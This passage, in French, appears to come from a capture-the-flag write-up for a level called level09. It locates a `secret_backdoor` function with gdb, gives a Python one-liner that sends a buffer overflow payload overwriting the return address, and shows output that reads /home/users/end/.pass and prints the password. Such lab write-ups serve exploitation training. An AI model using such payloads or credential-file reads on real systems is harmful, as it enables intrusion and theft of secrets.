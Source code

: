 Enfin, il nous faut trouver l'adresse de la fonction `secret_backdoor`. On utilise `gdb`.
```
> (gdb) x secret_backdoor
0x55555555488c <secret_backdoor>:	0x80c48348e5894855
```
L'adresse de la fonction `secret_backdoor` est `0x55555555488c`.

Finalement, on peut construire notre commande de cette manière :
```
> (python -c 'print "A"*40 + "\xff" + "\n" + "A"*200 + "\x8c\x48\x55\x55\x55\x55\x00\x00"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
